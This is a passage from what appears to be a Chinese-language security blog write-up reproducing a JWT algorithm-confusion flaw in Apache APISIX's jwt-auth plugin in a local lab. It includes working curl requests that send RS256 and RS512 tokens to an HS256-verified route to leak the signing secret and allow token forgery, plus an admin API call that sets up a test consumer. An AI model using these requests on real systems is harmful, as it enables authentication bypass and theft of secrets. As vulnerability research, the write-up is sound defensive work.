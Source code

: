这时其实漏洞环境才算搭好，接下来就可以开始发送 Payload 了。

将刚才由 RS256 算法生成的 JWT 值发送给 HS256 算法验证的路由，这样就可以获得刚才设置的 secret 值了。

```shell
 curl http://127.0.0.1:9080/index.html?jwt=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJycy1rZXkifQ.mF27BBWlXPb3fTiFufhcL3K9y99b8kioMmp7eMwRhB1kZjK62aJ_R6SB0A_Kmym8a7U2S3zYLue9mkD4FGGmhwmkmUGppjZdtwfxrZc7JvvdpJbihNGxdfn9ywUspr6DX831e29VAy1DnLT6cU8do_9MFklxrRbhTVpDOsOADEhh6Q5zdTKPz3h5pKHSQYO4y5Xd0bmRM7TqRvhfIRchmvroaJBQjP6TrDrN_x2elRpPsuabYmCNH_G7m6x5ouf0bqoOkOmsk3alJ6zNZFDY6-aTS4vDD8SDlSbAXkCh5DN-C10YQ6ZYWUGmcbap7hQhaIVJRlZRtaXMFbmabLwhgg -i
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202204301603498.png)

当我们拿到这个 sceret 值后，就可以伪造 JWT Token 了。

那么根据上面的漏洞分析，这里如果使用 RS512 算法应该也能触发这个漏洞，在 jwt.io 上生成 RS512 的 JWT 值如下：

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202204301603300.png)

```
 eyJhbGciOiJSUzUxMiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJycy1rZXkifQ.bMCMT2wCP8X6duvDDuaR232ae3XkA3d2g-FKvI-D73sk8nTRWZEfovoh_FFi5PquyC81J5i5bED-rh1RMuDHlJVMYDKTP-EPdoRxugBdCCq9iEL3A004PTQM21rWLcPe1SOqp2Qvcf41iH-5r5Zs5cuAraQm4qFyhooCziSIPNnbyb8VUMx6k7fGS-WIBMVti-SjG5dEGLwAckCjc_XYMPrHqMRFYU_sB6jY05xX_9u5PFnuOQiu-q3c7gZLHdVSzHeYQGct-nrjcrM2VHvdkMIwMOr25UMhu200HFDhpLXuWpic7WC-rtztTZOtZne7UZ4s6MlnJavZiXWEq3Ovew
```

利用 curl 访问

```shell
 curl http://127.0.0.1:9080/index.html?jwt=eyJhbGciOiJSUzUxMiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJycy1rZXkifQ.bMCMT2wCP8X6duvDDuaR232ae3XkA3d2g-FKvI-D73sk8nTRWZEfovoh_FFi5PquyC81J5i5bED-rh1RMuDHlJVMYDKTP-EPdoRxugBdCCq9iEL3A004PTQM21rWLcPe1SOqp2Qvcf41iH-5r5Zs5cuAraQm4qFyhooCziSIPNnbyb8VUMx6k7fGS-WIBMVti-SjG5dEGLwAckCjc_XYMPrHqMRFYU_sB6jY05xX_9u5PFnuOQiu-q3c7gZLHdVSzHeYQGct-nrjcrM2VHvdkMIwMOr25UMhu200HFDhpLXuWpic7WC-rtztTZOtZne7UZ4s6MlnJavZiXWEq3Ovew -i
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202204301603793.png)

果然使用 RS512 算法同样可以触发，说明漏洞分析的没毛病。

接着看看如果 secret 中包含了 CERTIFICATE 和 PUBLIC KEY 字符串，会返回什么。

重新开一个环境后，创建一个 consumer 对象，这次 secret 设置为 teamssix-CERTIFICATE

```shell
 curl http://127.0.0.1:9080/apisix/admin/consumers -H 'X-API-KEY: edd1c9f034335f136f87ad84b625c8f1' -X PUT -d '
 {
 "username": "jack",
 "plugins": {
 "jwt-auth": {
 "key": "rs-key",
 "secret": "teamssix-CERTIFICATE"
 }
 }
 }'
```
